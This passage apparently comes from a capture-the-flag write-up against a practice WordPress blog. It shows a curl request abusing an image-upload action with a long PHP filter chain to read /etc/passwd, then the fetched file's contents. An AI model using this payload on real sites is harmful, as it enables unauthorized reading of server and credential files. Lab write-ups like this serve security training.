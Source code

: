 ```bash
curl 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' -H "Content-Type: application/x-www-form-urlencoded" -d 'action=upload_image_from_url&id=1&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=file:///etc/passwd&accepted_files=image/gif'
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/01\/1.png","attachment_id":155}
```
Now we can download the image and print it

```bash
wget http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/01\/1.png

# cat 1.png
GIF89aroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologi
```